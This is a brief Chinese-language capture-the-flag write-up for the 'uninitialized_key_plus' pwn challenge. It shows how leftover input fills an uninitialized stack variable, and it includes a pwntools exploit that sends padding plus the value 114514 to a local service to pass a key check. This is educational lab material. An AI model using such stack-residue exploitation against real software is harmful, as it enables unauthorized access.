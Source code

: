 # uninitialized key plus

## 文件分析

下载`uninitialized_key_plus`, 保护全开
ghidra分析为64位程序

## 逆向

和上次一样，使得栈上变量key==114514即可  
使用gdb发送'111122223333444455556666'进行探测（共读入24B），
发现输入无意义字符后key上留下来的值是`'6666'`，故填充前面段，将6666设为114514即可

## EXPLOIT

```python
from pwn import *
sh = remote("localhost", 41675)
sh.sendline(b'0'*20 + p32(114514))
sh.sendline(b'asdfasdf')
sh.interactive()
```

Done.
